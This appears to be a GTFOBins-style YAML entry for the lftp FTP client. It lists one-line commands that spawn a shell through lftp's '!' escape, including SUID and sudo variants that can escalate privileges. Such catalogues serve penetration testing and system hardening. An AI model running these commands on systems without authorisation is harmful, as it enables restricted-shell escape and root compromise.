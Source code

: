 ```yaml
---
functions:
  shell:
    - code: lftp -c '!/bin/sh'
  suid:
    - code: ./lftp -c '!/bin/sh'
  sudo:
    - code: sudo lftp -c '!/bin/sh'
---
```

